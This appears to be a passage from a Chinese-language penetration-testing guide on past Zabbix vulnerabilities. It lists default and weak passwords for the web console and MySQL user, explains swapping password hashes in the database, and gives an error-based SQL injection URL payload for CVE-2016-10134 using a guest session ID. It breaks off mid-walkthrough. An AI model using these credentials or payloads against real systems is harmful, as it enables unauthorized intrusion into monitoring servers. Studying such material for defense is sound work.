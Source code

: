## [](#2-zabbix-%E5%8E%86%E5%8F%B2%E6%BC%8F%E6%B4%9E)2 Zabbix 历史漏洞

### [](#21-%E5%BC%B1%E5%8F%A3%E4%BB%A4)2.1 弱口令

#### [](#211-web-%E7%AB%AF)2.1.1 Web 端

Zabbix 安装后自带 Admin 管理员用户和 Guests 访客用户（低版本），可登陆 Zabbiax 后台。

常见弱口令组合：

-   `admin:zabbix`
-   `Admin:zabbix`
-   `guset:空口令`

#### [](#212-mysql-%E7%AB%AF)2.1.2 mysql 端

由于 root 用户默认情况下无法外连，运维通常会新建 MySQL 用户 `zabbix`，常见密码如下：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>``` | ```fallback<br>123456<br>zabbix<br>zabbix123<br>zabbix1234<br>zabbix12345<br>zabbix123456<br>``` |

拿下 MySQL 数据库后，可解密 users 表的密码 md5 值，或者直接替换密码的 md5 为已知密码，即可登录 Zabbix Web。

### [](#22-cve-2016-10134---sql-%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E)2.2 CVE-2016-10134 - SQL 注入漏洞

> 该漏洞的具体分析可参考：[zabbix SQL注入漏洞（CVE-2016-10134）](https://blog.iwonder.run/2020/12/20/zabbix-sql-zhu-ru-lou-dong-cve-2016-10134/)，原理是 insert 插入时未对用户输入的数据进行过滤，可以进行显错注入。

#### [](#221-%E5%B7%B2%E6%9C%89%E7%94%A8%E6%88%B7%E5%87%AD%E6%8D%AE)2.2.1 已有用户凭据

以 Guest 用户登录后，查看 Cookie 中的`zbx_sessionid`，复制后 `16` 位字符：

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202203221020167.png-water_print](assets/1699408100-e6da71cb8913701766b1839529eee22d.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202203221020167.png-water_print")

将这 16 个字符作为 sid 的值，访问 `http://your-ip:8080/latest.php?output=ajax&sid=16位 ID&favobj=toggle&toggle_open_state=1&toggle_ids[]=updatexml(0,concat(0xa,user()),0)`，可见成功注入：
